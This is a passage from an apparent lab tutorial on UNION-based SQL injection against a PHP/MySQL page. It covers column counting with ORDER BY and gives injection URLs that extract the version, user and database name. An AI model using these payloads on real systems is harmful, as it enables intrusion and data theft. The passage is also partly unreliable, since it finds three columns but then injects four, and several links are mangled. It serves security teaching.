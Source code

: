 You can use this property to guess the number of columns. For example, if you can inject in the following query: `SELECT id,name,price FROM articles where id=1`. You can try the following steps:

* `SELECT id,name,price FROM articles where id=1 ORDER BY 5`, the injection `1 ORDER BY 5` will return an error since the number of columns is less than 5 in the first part of the query;
* `SELECT id,name,price FROM articles where id=1 ORDER BY 3`, the injection `1 ORDER BY 3` will not return an error since the number of columns is less than or equal of 3 in the first part of the query;
* `SELECT id,name,price FROM articles where id=1 ORDER BY 4`, the injection `1 ORDER BY 4` will return an error since the number of columns is less than 4 in the first part of the query;

Based on this dichotomic search, we know that the number of columns is 3, we can now use this information to build the final query:

```text
SELECT id,name,price FROM articles where id=1 UNION SELECT 1,2,3
```

Even if this methodology provides the same number of requests for this example, it's significantly faster as soon as the number of columns grow.

#### Retrieving information

Now that we know the number of columns, we can retrieve information from the database. Based on the error message we received, we know that the backend database used is MySQL.

Using this information, we can force the database to perform a function or to send us information:

* the user used by the PHP application to connect to the database with `current_user()`
* the version of the database using `version()`

In order to perform this, we are going to need to replace one of the values in the previous statement \(`UNION SELECT 1,2,3`\) by the function we want to run in order to retrieve the result in the response.

Make sure you always keep the right number of columns when you try to retrieve information.

You can for example access the following URL's to retrieve this information:

* the database version: [http://vulnerable/cat.php?id=1%20UNION%20SELECT%201,@@version,3,4](http://vulnerable/cat.php?id=1%20UNION%20SELECT%201,@@version,3,4)
* the current user: \[[http://vulnerable/cat.php?id=1 UNION SELECT 1,current\_user\(\),3,4\]\(http://vulnerable/cat.php?id=1 UNION SELECT 1,current\_user\(\),3,4](http://vulnerable/cat.php?id=1%20UNION%20SELECT%201,current_user%28%29,3,4]%28http://vulnerable/cat.php?id=1%20UNION%20SELECT%201,current_user%28%29,3,4)\)
* the current database: \[[http://vulnerable/cat.php?id=1 UNION SELECT 1,database\(\),3,4\]\(http://vulnerable/cat.php?id=1 UNION SELECT 1,database\(\),3,4](http://vulnerable/cat.php?id=1%20UNION%20SELECT%201,database%28%29,3,4]%28http://vulnerable/cat.php?id=1%20UNION%20SELECT%201,database%28%29,3,4)\)

We are now able to retrieve information from the database and retrieve arbitrary content. In order to retrieve information related to the current application, we are going to need:

* the name of all tables in the current database
* the name of the column for the table we want to retrieve information from

MySQL provides tables containing meta-information about the database, tables and columns available since the version 5 of MySQL. We are going to use these tables to retrieve the information we need to build the final request. These tables are stored in the database information\_schema.  
The following queries can be used to retrieve:
